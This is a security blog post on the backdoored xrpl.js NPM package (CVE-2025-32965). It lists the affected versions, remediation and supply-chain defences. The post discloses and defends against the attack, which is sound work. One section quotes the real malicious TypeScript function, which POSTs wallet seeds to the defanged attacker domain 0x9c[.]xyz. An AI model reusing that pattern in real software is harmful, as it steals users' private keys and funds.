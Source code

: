 ```yaml
---
title: 'Backdoored xrpl.js NPM Package Steals Keys (CVE‑2025‑32965)'
date: '2025-04-23'
authors: ['zerodaily']
tags: ['vulnerability', 'cyber-attack']
draft: false
summary: "Multiple versions of Ripple's official xrpl.js NPM package were compromised with malicious code designed to steal cryptocurrency private keys, affecting versions 4.2.1-4.2.4 and 2.14.2. Immediate key rotation is recommended."
type: Blog
---
```


Security researchers at Aikido Security discovered that multiple versions of Ripple's official `xrpl.js` NPM package were compromised with malicious code designed to exfiltrate cryptocurrency private keys to an attacker-controlled server.[^1]

The backdoored library, which has over 140 000 weekly downloads, posed a significant security risk to XRP Ledger developers and users relying on the compromised versions.[^1]

## The Compromised Packages

The supply chain attack affected the following versions of the `xrpl.js` library:

- Version 4.2.1
- Version 4.2.2
- Version 4.2.3
- Version 4.2.4
- Version 2.14.2

The malicious packages were first published on April 21, 2025, at 20:53 GMT by a user named "mukulljangid". Notably, these versions did not match the official releases on GitHub, where the latest release was version 4.2.0, immediately raising suspicion.[^1]

## How the Backdoor Works

Aikido Security's threat intelligence system, Aikido Intel, detected suspicious code in the compromised versions of the package. The malicious code was inserted into `src/index.ts` and included a seemingly innocuous function called `checkValidityOfSeed` that secretly exfiltrated private keys.[^1]

```typescript
const validSeeds = new Set<string>([])
export function checkValidityOfSeed(seed: string) {
  if (validSeeds.has(seed)) return
  validSeeds.add(seed)
  fetch("https://0x9c[.]xyz/xc", { method: 'POST', headers: { 'ad-referral': seed, } })
}
```

This backdoor function was strategically placed in critical locations within the codebase, including the Wallet class constructor and various methods that handle key derivation. When users created wallets or imported keys, the malicious code would silently transmit their private keys to the attacker's server via HTTPS requests.[^1]

Researchers found that the attack evolved through multiple iterations, with earlier versions (4.2.1-4.2.2) containing manually modified JavaScript files, while later versions (4.2.3-4.2.4) had the backdoor directly inserted into the TypeScript source code.

## Impact and Remediation

The attack specifically targeted the NPM distribution of the package; the GitHub repository remained unaffected. Users who installed these compromised versions may have had their XRP wallet private keys compromised, potentially allowing attackers to gain unauthorized access to cryptocurrency funds.[^2]

The XRP Ledger Foundation quickly responded by releasing clean versions 4.2.5 and 2.14.3 to address the vulnerability. However, simply updating to a secure version is not sufficient for users who may have already been compromised.[^2]

Users who used any of the affected versions should take the following actions immediately:[^2]

1. **Rotate all cryptographic keys** used with the affected systems
2. **Transfer funds** to secure wallets with newly generated keys
3. **Disable compromised master keys** using the XRP Ledger's key rotation features
4. **Assign new regular key pairs** to affected accounts

## Supply Chain Security Considerations

This incident highlights the continuing risk of software supply chain attacks targeting package managers like NPM. The compromise demonstrates sophisticated techniques where attackers:

1. Released multiple versions with increasingly sophisticated backdoor implementations
2. Used domain names designed to appear non-suspicious (0x9c[.]xyz)
3. Targeted a widely-used cryptocurrency library with high-value assets.

Organizations using NPM packages in their development workflows should implement additional security measures such as:

- Using lockfiles to pin dependencies to verified versions
- Implementing integrity verification for package signatures
- Conducting regular security audits of dependency trees
- Monitoring for unexpected package version updates[^2]

## Final Thoughts

The xrpl.js backdoor incident represents a concerning evolution in supply chain attacks targeting the cryptocurrency sector. This was not an opportunistic attack but a sophisticated operation specifically designed to compromise high-value targets: cryptocurrency wallets holding potentially significant assets.[^1]

The rapid identification and response by the security community and the XRP Ledger Foundation demonstrate the value of independent security monitoring systems and transparent security processes.

What makes this attack particularly noteworthy is that it targeted official package releases rather than relying on typosquatting or dependency confusion techniques seen in previous npm attacks.

The threat actors gained access to publishing credentials for a legitimate package with a large user base, highlighting the critical importance of securing not just code repositories but also package publishing pipelines.[^2]

As software supply chain attacks continue to increase in sophistication, developers working in the cryptocurrency space must implement defense-in-depth strategies that assume compromise at some point in the dependency chain. This means implementing runtime protections, least-privilege principles, and comprehensive monitoring—especially when handling sensitive cryptographic operations.

### Related Articles

- [Windows NTLM Hash Leak CVE-2025-24054 Under Active Exploitation: Patch Now to Prevent Credential Theft](/blog/2025-04-18-windows-ntlm-cve-2025-24054-under-active-exploitation)
- [Oracle Cloud Credentials Leak: CISA Issues Urgent Guidance](/blog/2025-04-18-oracle-cloud-credentials-leak-cisa-guidance)
- [Critical Microsoft Zero-Day Vulnerability CVE-2025-29824: What You Need to Know](/blog/2025-04-08-microsoft-zero-day)

[^1]: [Aikido Security: XRP supply chain attack: Official NPM package infected with crypto stealing backdoor](https://www.aikido.dev/blog/xrp-supplychain-attack-official-npm-package-infected-with-crypto-stealing-backdoor)
[^2]: [GitHub Advisory Database: Compromised xrpl.js versions 4.2.1, 4.2.2, 4.2.3, 4.2.4, and 2.14.2 (GHSA-33qr-m49q-rxfx)](https://github.com/advisories/GHSA-33qr-m49q-rxfx)
